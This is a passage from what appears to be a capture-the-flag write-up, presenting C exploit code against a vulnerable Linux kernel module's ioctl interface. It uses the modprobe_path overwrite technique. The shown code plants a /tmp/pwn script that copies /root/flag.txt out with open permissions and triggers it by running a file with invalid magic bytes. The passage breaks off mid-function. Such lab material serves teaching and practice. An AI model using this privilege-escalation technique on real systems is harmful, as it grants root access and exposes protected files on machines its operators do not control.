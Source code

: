 below is the full exploit:

{% code title="exploit.c" %}
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#include <pthread.h>
#include <string.h>

#define KINTRO 0xCABE0000
#define KGREET 0xCABE0001
#define KVISIT 0xCABE0002
#define BUFFER_SIZE 0x100

typedef struct visitor {
    char name[BUFFER_SIZE];
    unsigned long location;
    char decoration[BUFFER_SIZE];
} visitor;

visitor payload = {
    .name = "",
    .location = 0x0,
    .decoration = "/tmp/pwn"
};

int fd, success = 0x0;
unsigned long kbase, modprobe_path = 0x0;

char dummy_decoration[BUFFER_SIZE]= { 0x0 };

void prep_modprobe() {
    puts("[*] Setting up for fake modprobe");

    system("echo '#!/bin/sh\ncp /root/flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/pwn");
    system("chmod +x /tmp/pwn");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
}

void exec_modprobe() {
    puts("[*] Run unknown file");
    system("/tmp/dummy");

    if (open("/tmp/flag", O_RDONLY) > 0) {
        puts("[+] Success!");
        success = 0x1;
    } else {
        puts("[-] Failed!");
        return;
```